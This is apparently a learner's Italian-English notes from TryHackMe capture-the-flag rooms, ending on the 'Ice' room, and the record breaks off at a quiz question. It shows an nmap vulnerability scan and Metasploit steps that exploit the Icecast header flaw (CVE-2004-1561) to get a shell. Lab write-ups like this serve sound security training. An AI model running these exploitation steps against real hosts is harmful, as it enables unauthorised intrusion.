 vai sul disco locale C:\\ -> Users -> Administrator -> immetti la password che abbiamo trovato prima.

![[Pasted image 20240212180136.png]]

Ora dovresti poter entrare nella cartella administrator e cercare l'ultima flag

-> entra nella cartella

![[Pasted image 20240212180415.png]]

-> cerca, ma eventualmente la root flag la troverai nel desktop -> root.txt

![[Pasted image 20240212180509.png]]

---------------------

13/02/2024

# 4°
# THM - Ice

-> nmap -sS -sV --script vuln 'ip'

![[nyixt2z7.bmp]]
service name on port 8000: Icecast

![[8hi0nccc.bmp]]
 

You could see that our machine is vulnerable to the server **Icecast streaming media server** which is running in the port **8000.** So go ahead and Research further to find about the exploit.

pay attention that MSRDP is open "3389":

> What does Nmap identify as the hostname of the machine?

![[42fmv5gv.bmp]]


> What type of vulnerability is Icecast?


[**_https://www.cvedetails.com/cve/CVE-2004-1561/_**](https://www.cvedetails.com/cve/CVE-2004-1561/)

![[nxwxzcqh.bmp]]


-> msfconsole -> search icecast -> use 0

-> exploit/windows/http/icecast_header -> options

-> set rhost 'your ip' -> run -> "background the shell" 

> What user was running that Icecast process?
